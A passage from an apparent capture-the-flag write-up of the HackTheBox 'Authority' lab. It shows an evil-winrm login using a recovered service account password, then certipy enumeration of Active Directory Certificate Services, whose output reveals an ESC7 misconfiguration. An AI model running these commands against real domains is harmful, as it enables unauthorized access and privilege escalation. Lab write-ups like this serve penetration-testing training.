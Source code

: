 So using these credentials its possible to log into the machine using **evilwinrm**.

```bash
evil-winrm -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -i authority.htb
```

## Privilege escalation

So knowing that there is an ADCS service based from the Ansible scripts as well as the name of the machine, my first instinct was to check if there were any vulnreable certificates using certipy.

```bash
certipy find -username 'svc_ldap@authority.htb' -password 'lDaP_1n_th3_cle4r!' -vulnerable -enabled
```

![Ldap credential](/assets/img/Authority/Authority_09.png)

When reviewing the results of the tool we can see that there was indeed a vulnerable certificate present:

```
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC7                              : 'AUTHORITY.HTB\\Administrators' has dangerous permissions
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
```